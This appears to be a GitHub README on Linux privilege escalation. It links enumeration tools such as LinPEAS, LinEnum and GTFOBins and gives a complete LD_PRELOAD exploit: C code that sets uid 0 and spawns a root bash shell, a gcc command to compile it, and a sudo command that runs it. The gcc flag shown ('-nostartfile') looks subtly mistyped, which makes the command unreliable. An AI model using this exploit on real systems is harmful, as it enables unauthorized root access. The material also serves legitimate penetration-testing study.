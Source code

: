 # Privilege-Escalation
Bypass security restrictions in misconfigured systems.
List of Tools and Repositories 👇🏻

## For Linux

**LinPeas** - https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

**LinEnum** - https://github.com/rebootuser/LinEnum

**LES (Linux Exploit Suggester)** - https://github.com/mzet-/linux-exploit-suggester

**Linux Smart Enumeration** - https://github.com/diego-treitos/linux-smart-enumeration

**Linux Priv Checker** - https://github.com/linted/linuxprivchecker 

**GTFOBins** - https://gtfobins.github.io/

**Using *LD_Preload***
> This piece of code will spawn root shell ➡️ [shell.c](https://github.com/Somchandra17/Privilege-Escalation/blob/01f889492ff51414fa077a01fa538ecd5a0d4543/shell.c)
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
> Compile it using GCC into a Shared Object file(.so)
```
gcc -fPIC -shared -o shell.so shell.c -nostartfile
```
> Run it by using LD_Preload option  
```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```
**Linux Privilege Escalation exploiting Sudo Rights — Part I** - https://medium.com/schkn/linux-privilege-escalation-using-text-editors-and-files-part-1-a8373396708d
